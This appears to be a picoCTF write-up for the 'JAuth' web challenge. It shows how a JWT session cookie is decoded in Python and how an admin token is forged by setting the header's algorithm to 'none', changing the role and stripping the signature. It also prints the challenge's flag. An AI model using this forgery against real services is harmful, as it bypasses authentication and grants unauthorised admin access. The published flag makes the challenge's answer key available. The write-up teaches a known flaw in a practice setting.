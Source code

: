 ```yaml
---
title: "JAuth"
tags:
- Authentication Bypass
- CTF
- JWT
- PicoCTF
- Web
date: 2022-02-22T14:49:34+05:30
draft: false
---
```


The challenge description states that most web application developers use third party components without testing their security.
It mentions some past affected companies, then asks us to identify and exploit the vulnerable component for the challenge at http://saturn.picoctf.net:52025/

The goal is to become an `admin`.
We are provied with the username `test` and the password `Test123!` to look around.

The challenge is a dummy bank portal. On login, we see the message:
> Hello, You have logged in the testing page. There is nothing to see here.

While logging in, if we check the network requests and responses,
we can see a cookie named `token` being set.

```none
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjQ1NTE4MjkzMTE5LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6OTcuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC85Ny4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2NDU1MTgyOTN9.dy45xnUb62Xnhqgo51JmGWRthAUGS-3jKwQ_RlDYCrw; path=/; httponly
```

On closer inspection, the cookie looks like a [JWT](@ "JSON Web Token").
[JWTs](https://en.wikipedia.org/wiki/JSON_Web_Token) comprise three base64 encoded parts, each separated by a dot:
- Header
- Payload
- Verification signature

> We can make this educated guess since the value begins with `eyJ` which partially decodes to `{"`

Let's try to decode the first two parts. I'll use python for this.

```python
from base64 import b64decode, b64encode
cookie = "eyJ0e..." # replace this with the entire cookie
header, payload = [b64decode(part).decode() for part in cookie.split('.')[:2]]
print(header)
# {"typ":"JWT","alg":"HS256"}
print(cookie)
# {"auth":1645518293119,"agent":"Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0",
# "role":"user", "iat":1645518293}
```

Decoding the signature would result in non-printable characters since it is
the base64 representation of the [HS256](@ "HMAC SHA256") digest of the header,
payload and a 256 bit secret. Other algorithms include [RSA256](@ "RSA SHA256") and
[ES256](@ "ECDSA SHA256").

To forge an admin's cookie, we would need to modify the `"role"` field in the
payload to `"admin"`. Doing so tampers the verification signature and we would
need the 256 bit secret to generate a valid signature.

Luckily, we see that the verification algorithm is specified in the cookie's header.
We can modify the `"alg"` field of the header to `"none"` and omit the verification signature completely.

```python
forged = [
 header.replace("HS256", "none"), # header
 payload.replace("user", "admin"), # payload
 "", # empty signature
]
encoded = [b64encode(part.encode()).decode() for part in forged]
print('.'.join(encoded))
# eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhZ2VudCI6Ik1vemlsbGE...
```

This python snippet gives us the forged cookie. Do not forget the trailing dot while copying.
Setting the cookie to this value, we are redirected to the admin page.

> Hello, admin! You have logged in as admin!

and we are greeted with the flag `picoCTF{succ3ss_@u7h3nt1c@710n_57072644}`
